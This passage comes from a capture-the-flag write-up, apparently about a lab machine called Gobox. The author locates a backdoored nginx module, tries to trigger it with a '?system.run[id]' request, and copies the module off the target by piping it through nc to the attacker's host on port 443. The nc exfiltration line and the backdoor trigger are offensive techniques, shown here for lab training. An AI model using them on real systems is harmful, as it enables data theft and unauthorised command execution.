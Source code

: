 That definitely looks like what what's on Gobox.

### Backdoor Fail

According to the docs, I should be able to trigger this backdoor by
making a request to the server with this enabled with the parameter
`?system.run[command]`.

Since the server is only listening on localhost, I'll just use `curl`
from my shell. It doesn't work:



    www-data@gobox:~$ curl http://127.0.0.1:8000?system.run[id]
    curl: (52) Empty reply from server



### Identify Argument

#### Exfil Copy

To take a look at the backdoor, I needed to find a copy. I knew from the
config that it's named `ngx_http_execute_module.so`, so I just used
`find`:



    www-data@gobox:~$ find / -name ngx_http_execute_module.so 2>/dev/null
    /usr/lib/nginx/modules/ngx_http_execute_module.so
    www-data@gobox:~$ ls -l /usr/lib/nginx/modules/ngx_http_execute_module.so 
    -rw-r--r-- 1 root root 163896 Aug 23 20:59 /usr/lib/nginx/modules/ngx_http_execute_module.so



I'm able to read it as well. I'll send it back to a listening `nc` on my
host with:



    www-data@gobox:~$ cat /usr/lib/nginx/modules/ngx_http_execute_module.so | nc 10.10.14.6 443



At my host:



    oxdf@parrot$ nc -lnvp 443 > ngx_http_execute_module.so
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.113] 48084
    ^C



And the hashes match:



    www-data@gobox:~$ md5sum /usr/lib/nginx/modules/ngx_http_execute_module.so
    15f0ad443a4b4888bfbee4e5b2cf0ae6  /usr/lib/nginx/modules/ngx_http_execute_module.so




